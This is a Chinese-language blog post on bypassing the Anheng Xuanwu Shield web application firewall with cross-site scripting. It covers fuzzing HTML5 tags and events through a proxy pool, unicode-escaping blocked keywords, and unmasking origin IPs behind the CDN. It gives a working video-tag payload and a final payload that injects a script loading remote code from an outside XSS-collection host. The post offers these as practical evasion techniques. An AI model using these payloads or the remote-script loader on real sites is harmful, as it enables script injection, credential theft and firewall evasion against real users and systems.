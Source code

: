 ```yaml
---
title: XSS bypass 安恒玄武盾
abbrlink: 34838
date: 2019-06-10 17:42:05
categories: WEB
tags:
- XSS
---
```


*本文原发于星盟微信公众号 <https://mp.weixin.qq.com/s/3Qz-ccL2Ynf1YnBlBxjgCQ> , 博客转自本人仅做备份用途*

## 起因 

最初发现来自实验室的小伙伴,但是仅限于弹窗,后来发现这种类型的payload构造思路来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>)以及使用了fuzz的一些小技巧,可以实现任意js代码执行.

绕云waf简单的方式就是绕过cdn,找真实ip,翻一下历史解析记录基本都能找到,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

### fuzz起手


最近一次测试是在今年四月份,最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

能fuzz就不手测,如果被ban了ip就上代理池.好像burpsuite不支持代理池,所以简单的fuzz自己写个脚本调用下代理池就好了.

推荐一个[开源的代理池](<https://github.com/qiyeboy/IPProxyPool>),有官方提供的dockerfile(我之前使用的时候是有的,刚出去找没找到,不过手动搭建也很快),一键搭建.

玄武盾对常见关键字过滤的还是挺全的.但是直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.html5普及都这么多年了,玄武盾还没更新到html5,确实无语.

html5标签大概有100多个,可以用我收集的[html5标签字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

使用html5进行的xss有不少方法,以html5与xss到google搜索一下就可以找到很多相关的文章,还有一些靶场.

比如[HTML5_Security_Cheat_Sheet](<https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/HTML5_Security_Cheat_Sheet.md>)与[html5sec](<https://html5sec.org/>),这里就不多说了.

比较容易用来构造xss的标签有`video`.

随手插入一个`<video src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>`,成功

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[html5事件字典在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`(好像是余弦大佬提出的)不需要额外的交互,打开网站.当在指定音视频（audio/video）的元数据（如分辨率和时长）加载后触发.

记得把video标签加上hidden属性.不然动静太大了.

还有一些其他可用的video的事件,请见[他山之石 | 对 XSS 的一次深入分析认识](<https://www.freebuf.com/articles/web/195507.html>)

### 编码绕过

虽然绕过了关键字检测,但是如果直接用`alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

这里需要详细解释下:

浏览器首先会用HTML解析器对HTML文档进行词法解析,也就是说如果遇到HTML实体编码,会将其解码,但是注意,解码后并不会当做一个标签,也就是说,类似`&#x3c;&#x76;&#x69;&#x64;&#x65;&#x6f;&#x3e;`(`<video>`)这样的标签是不会解释的,但是在数据内部,比如`<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;: alert()" >`(`<a href="javascript: alert()" >`)则能执行js.

接着浏览器会调用js解析器对js脚本进行解释,如果遇到url编码,会调用url解析器进行解码.

如果js解析器遇到了js编码,且在字符串中,也就是`\u****`类型的,则会将其js解码后正常执行js代码需要注意的是比如引号,双引号这些控制字符就算被解码了,也不能生效.也就是说,不能通过js编码逃逸引号.

所以,最终事件内payload为:

`[1].find(\u0061lert)`

### 成功执行

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.

完美绕过玄武盾执行任意js代码.